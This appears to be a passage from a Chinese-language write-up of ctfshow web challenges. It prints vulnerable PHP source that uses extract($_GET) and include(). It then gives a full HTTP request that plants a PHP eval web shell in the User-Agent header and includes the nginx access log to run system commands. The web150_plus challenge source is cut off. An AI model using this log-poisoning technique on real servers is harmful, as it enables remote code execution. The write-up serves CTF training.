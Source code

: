 ```
    public function isVIP(){
        return $this->vip?TRUE:FALSE;
        }
    }

    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE){
    include($ctf);
}

```

日志绕过

```
POST /?isVIP=1 HTTP/1.1
Host: 76d1b363-e52c-456b-aff5-8c0c5ad8c0ad.challenge.ctf.show
User-Agent: <?php eval($_POST[1]);?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: _ga=GA1.2.1418869291.1680592508
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

ctf=/var/log/nginx/access.log&1=system('cat f*');
```



### web150_plus

```
include("flag.php");
error_reporting(0);
highlight_file(__FILE__);

class CTFSHOW{
    private $username;
    private $password;
    private $vip;
    private $secret;

    function __construct(){
        $this->vip = 0;
        $this->secret = $flag;
    }

```